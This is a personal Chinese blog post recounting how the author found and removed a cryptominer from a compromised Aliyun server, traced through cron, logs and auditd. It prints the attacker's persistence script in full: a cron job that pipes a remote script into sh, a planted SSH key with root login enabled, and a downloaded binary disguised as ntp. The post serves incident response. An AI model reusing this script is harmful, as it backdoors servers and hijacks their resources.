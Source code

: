 ```yaml
---
author: huji
comments: true
date: 2016-10-13 15:07:20+00:00
layout: post
slug: 我的阿里云被人黑了...
title: 我的阿里云被人黑了...
categories:
- coding
---
```


这件事情整个过程还是挺有意思的，记录一下事情经过.



* 阿里云的邮件

首先是10.12晚上，我收到一封阿里云的邮件：

``` 
	经检测您的云服务器（123.56.46.78）存在恶意发包行为，需要您尽快排查您的安全隐患。
	目前系统不会处罚您的机器，但请您务必重视。
```

当天晚上我真心没重视，第二天也就是今天早上又收到一条短信再次提醒了我一次，我才想起这个事情，突然想起前几天自己倒腾redis的时候，貌似没有设置redis密码，有可能是这个导致的（后来搜索的时候发现确实有人是因为这个中招的，redis有一个什么漏洞会让别人通过连上redis server获取root权限）。



* top

ssh上去，首先就把redis server停了，然后在这过程中就感觉搞什么操作都卡卡的，于是我就top了一下，发现有个叫minerd的进程cpu占了97%左右，内存倒是没占什么，到网上搜了一下，发现是用来挖比特币的，心里倒是放心了，黑进来的人没干什么特别坏的事情。



好奇这个事情什么时候开始的，于是登陆到阿里云控制台看了下cpu使用记录，发现从10.10 11:00左右开始，cpu使用量上来的:

![aliyun](/images/aliyun_cpu.png)



kill minerd进程，感觉应该不会这么简单，于是等了一会看，果然又起来了。于是到根目录find了一下，发现有两个叫minerd的文件.

![file](/images/minerd_file.png)

删掉这个文件，果然过一会又出现了。网上有人用chmod把minred的执行权限先删掉了，可以暂时屏蔽掉这个问题，但这肯定没解决问题啊！暂时没什么思路，但是先按那个办法把minerd的执行权限干掉了，不然真的很卡.......虽然知道肯定是某个运行着的进程干的这个事情，但那么多进程，怎么知道是哪一个，人家肯定不会命名叫hack_process吧.



* crontab

一开始没想起来crontab这么个东西，直接到/var/log/messages里面看系统日志，发现从10.10的11点左右就开始不断有一个错误日志：

``` 
111 Oct 10 10:53:36 iZ25svomv4kZ crond: sendmail: fatal: parameter inet_interfaces: no local interface found for ::1
```

才想起来有可能是hacker利用crontab在干什么坏事.`crontabl -l`看了一下，果然有一条定时任务，但看起来和minerd那个程序没啥关系，它是这样的：

``` 
*/10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh
```

把那个sh脚本下载下来，是这样滴：

``` 
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
	mkdir -p ~/.ssh
	rm -f ~/.ssh/authorized_keys*
	echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
	echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
	echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
	echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
	echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
	/etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/ntp" ]; then
	if [ ! -f "/etc/systemd/system/ntp.service" ]; then
		mkdir -p /opt
		curl -fsSL http://r.chanstring.com/v51/lady_`uname -m` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33 -Install
	fi
fi

/etc/init.d/ntp start

ps auxf|grep -v grep|grep "/usr/bin/cron"|awk '{print $2}'|xargs kill -9
ps auxf|grep -v grep|grep "/opt/cron"|awk '{print $2}'|xargs kill -9

```

于是一行一行把脚本读了，把对应的被修改的地方都改回来，把下载的文件全删掉，只有那个ntp，把我迷惑了，以为是真正的那个ntp呢.....心里还想，挖矿可能需要校准时间吧.



然而还是根本停不下来，还是会重新下载minerd并启动，我开始怀疑是因为之前运行的某个进程在内存驻留着，我把你的文件都删了，再重启服务器，应该就没了吧，遂重启。发现被删的文件都回来了，甚至还在之前被我删掉的.ssh目录里面又加了一条免密码登陆的sshkey.....



* audit

得换个思路，我把minerd的执行权限干了，并且把他的进程kill掉了，这时候那个后台进程应该隔一段时间就会去启动一次minerd才对，但权限错误，应该会留下些信息吧，想起来好多年前以前看鸟哥的linux私房菜的时候，逛论坛看到过有个东东是可以看到所有文件访问记录的，搜了一下找到了audit.，按照man的指示用了下，监控minerd的访问记录，看到下面的log:

``` 
type=SYSCALL msg=audit(1476361497.445:16): arch=c000003e syscall=59 success=no 
exit=-13 a0=c820361d90 a1=c8201b89c0 a2=c82018b530 a3=0 items=1 ppid=424 
pid=2100 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 
fsgid=0 tty=(none) ses=4294967295 comm="ntp" exe="/usr/sbin/ntp" key="hack"

type=CWD msg=audit(1476361497.445:16):  cwd="/"

type=PATH msg=audit(1476361497.445:16): item=0 name="/opt/minerd" 
inode=1183923 dev=ca:01 mode=0100644 ouid=0 ogid=0 rdev=00:00 objtype=NORMAL
```

干，果然是之前脚本里面出现那个ntp，然后顺着把ntp和一个叫ntp.service的东西删了，看了下两个文件的时间，还果然对得上：

![npt_file](/images/npt_time.png)

接着再过了一遍那个pm.sh脚本，把相关文件全部删掉，相关进程全部kill，重启服务器，世界清净了....



等等，根源还没有治，搜了下redis安全相关的文章看了下，把之前得安全隐患全部都干掉。收工，然后写了这篇文章。